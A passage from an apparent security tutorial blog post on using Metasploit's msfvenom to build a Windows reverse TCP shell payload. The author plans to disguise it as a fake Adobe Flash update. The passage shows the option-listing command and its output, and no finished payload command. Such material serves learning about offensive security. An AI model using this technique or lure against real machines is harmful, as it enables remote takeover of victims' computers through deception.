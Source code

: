First-off, the payload I'm referring to is a small binary (aka. program or executable) which is to deployed to a given machine. This payload ideally contains malicious content to give us remote access to the target machine.

When starting off with the payload, I had a goal of attempting to generate a semi-legitimate scenario in which this shell could be deployed. So, I ran through some scenarios in my head and a situation my dad ran into came to mind. A few years back, on his old MacBook Pro 2011 (yes, they "aren't supposed to get viruses"), he fell for a simple [Update your Adobe Flash Player](https://www.intego.com/mac-security-blog/how-to-tell-if-adobe-flash-player-update-is-valid/) scam. So, I figured I would go with this scenario, as it obviously works (sorry pops).

## msfvenom

In order for us to generate the payload, we can use a tool called `msfvenom`, a part of the [Metasploit framework](https://www.metasploit.com/), which is a tool which can be used to generate malicious payloads. The full documentation of going through generating a payload can be found [here](https://www.offensive-security.com/metasploit-unleashed/binary-payloads/), but I will just be covering generating simple reverse TCP shells for Windows.

To get started, I simply used [Kali Linux](https://www.kali.org/) in a Virtual Machine (see how to set one up [here](https://www.kali.org/docs/virtualization/)) because it has the Metasploit Framework preinstalled and preconfigured for use.

Let's open a terminal and check out the options we have to configure for this payload:

```
$ msfvenom -p windows/shell/reverse_tcp --list-options
```

And the output should look like:

```
Options for payload/windows/shell/reverse_tcp:


       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 281
       Rank: Normal

Provided by:
    spoonm
    sf
    hdm
    skape

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  --
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```

